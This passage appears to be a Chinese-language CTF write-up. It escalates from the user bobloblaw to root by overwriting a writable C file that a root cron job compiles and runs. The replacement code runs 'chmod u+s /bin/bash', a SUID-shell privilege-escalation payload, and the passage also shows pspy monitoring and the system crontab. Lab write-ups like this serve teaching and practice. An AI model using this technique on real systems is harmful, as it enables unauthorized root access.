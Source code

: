 ### bobloblaw —> root

在用户 bobloblaw 家目录发现几个图片, 可能存在文件隐写术

![image-20240709184701841](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-184703.png)

对其进行一些解密:

- dontlook.txt : 没有什么用
- whatscooking.txt : 告诉我们一个计时器, 我感觉可能时某些服务或者计划任务

上传 pspy 进行监听我发现一个 root 定时任务一直在执行编译的命令

![image-20240709184708659](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-184710.png)

我查看对应的源文件发现可以修改, 所以直接编写一个新的进行覆盖

```bash
(remote) bobloblaw@bobloblaw-VirtualBox:/home/bobloblaw/Documents$ ls -al
total 16
drwxr-xr-x  3 bobloblaw bobloblaw 4096 Jul 30  2020 .
drwxrwx--- 16 bobloblaw bobloblaw 4096 Aug  6  2020 ..
drwxrwx---  2 bobloblaw bobloblaw 4096 Oct  7 00:07 .also_boring
-rw-rw----  1 bobloblaw bobloblaw   92 Jul 30  2020 .boring_file.c
(remote) bobloblaw@bobloblaw-VirtualBox:/home/bobloblaw/Documents$ cat .boring_file.c
#include <stdio.h>
int main() {
	printf("You haven't rooted me yet? Jeez\n");
	return 0;

}
```

```c
root@ip-10-10-165-240:~/theblobblog# cat .boring_file.c 
#include <stdio.h>
#include <stdlib.h>

int main() {
    const char *command = "chmod u+s /bin/bash";
    int result = system(command);
    return 0;
}
```

![image-20240709184716390](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-184717.png)

## 扩展

### Rabbit holes

如果你查看定时任务你会发现 root 用户会执行一条 root 命令 但是对应得目录你没有权限操作

```c
(remote) root@bobloblaw-VirtualBox:/root# cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
```